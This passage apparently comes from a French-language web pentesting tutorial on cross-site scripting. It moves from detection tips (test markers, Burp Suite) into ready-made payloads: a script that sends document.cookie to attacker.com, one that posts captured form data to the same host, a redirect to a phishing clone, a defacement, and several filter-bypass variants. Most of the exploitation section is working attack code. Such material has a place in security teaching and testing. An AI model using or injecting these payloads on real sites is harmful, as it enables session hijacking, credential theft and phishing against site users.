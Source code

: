 #### Identification des vulnérabilités XSS

1. **Test manuel** :
   - Injecter des marqueurs simples comme `<test>` ou `'">` dans tous les champs
   - Vérifier si ces marqueurs apparaissent non échappés dans la réponse
   - Tester des payloads plus complexes si les marqueurs passent

2. **Utilisation de Burp Suite** :
   - Activer le scanner passif pour détecter les réflexions potentielles
   - Utiliser l'extension "XSS Validator"
   - Tester systématiquement avec Intruder

#### Exploitation basique

1. **Vol de cookies** :
   ```javascript
   <script>
   fetch('https://attacker.com/steal?cookie=' + encodeURIComponent(document.cookie))
   </script>
   ```

2. **Capture de données de formulaire** :
   ```javascript
   <script>
   document.querySelector('form').addEventListener('submit', function(e) {
     fetch('https://attacker.com/steal', {
       method: 'POST',
       body: new FormData(this)
     });
   });
   </script>
   ```

3. **Redirection** :
   ```javascript
   <script>
   window.location = 'https://evil-phishing-clone.com';
   </script>
   ```

4. **Défacement** :
   ```javascript
   <script>
   document.body.innerHTML = '<h1>Site piraté</h1>';
   </script>
   ```

#### Contournement des protections

1. **Contournement de filtres basiques** :
   ```html
   <scr<script>ipt>alert(1)</scr</script>ipt>
   <script>al\u0065rt(1)</script>
   <img src=x onerror="&#97;&#108;&#101;&#114;&#116;(1)">
   ```
